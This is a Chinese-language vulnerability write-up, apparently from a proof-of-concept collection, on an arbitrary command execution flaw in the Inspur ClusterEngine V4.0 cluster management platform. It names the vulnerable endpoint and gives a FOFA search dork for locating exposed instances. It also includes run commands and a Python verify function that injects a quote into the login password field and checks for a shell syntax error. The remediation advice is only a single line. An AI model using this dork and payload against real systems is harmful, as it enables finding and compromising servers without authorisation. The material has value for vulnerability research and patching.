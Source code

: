# 浪潮 ClusterEngineV4.0 任意命令执行
漏洞关注点：
------

/alarmConfig

漏洞信息
----

浪潮ClusterEngine集群管理平台是专为浪潮天梭系列HPC产品定制的一款作业管理软件，该软件采用B/S架构，通过浏览器（IE，firefox等）进行操作，可以管理集群系统中的软硬件资源和用户提交的作业，根据集群中的资源使用情况来合理的调度用户提交的作业，从而达到提高资源的利用率和作业的执行效率的作用。其4.0版本存在任意命令执行漏洞。

漏洞危害
----

攻击者通过发送精心构造的请求包到目标应用程序，将会造成远程命令执行漏洞。甚至获得目标站点的服务器权限。

fofa\_dork
----------

    title="TSCEV4.0"

漏洞验证
----

![image.png](%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/1618123213_607299cd3f220dac5fa7a.png!small)

验证POC
-----

    pip3 install -r requirements.txt
    python3 clusterengine_poc.py -u http://127.0.0.1:1111

    def verify(self, first=False):
            target = self.scan_info['Target']
            verbose = self.scan_info['Verbose']
            headers = {
                "Content-Type": "application/x-www-form-urlencoded"
            }
            payload = "op=login&username=asd&password=asd'"
            try:
                url = urljoin(target, '/login')
                resp = req(url, 'post', data=payload,headers=headers,verify=False)
                if ('{"err"' in resp.text) and (" syntax error: unexpected end of file" in resp.text):
                    log.highlight("found Inspur ClusterEngine v4.0 Remote Code Execution")
                    self.scan_info['Success'] = True
                    self.scan_info['Ret']['VerifyInfo']['URL'] = url
                    self.scan_info['Ret']['VerifyInfo']['Payload'] = payload
                    self.scan_info['Ret']['VerifyInfo']['method'] = "POST"
                    return
            except Exception as e:
                log.info("[*]Request to target URL fail! {}".format(e))

修复方案
----

升级到修复版本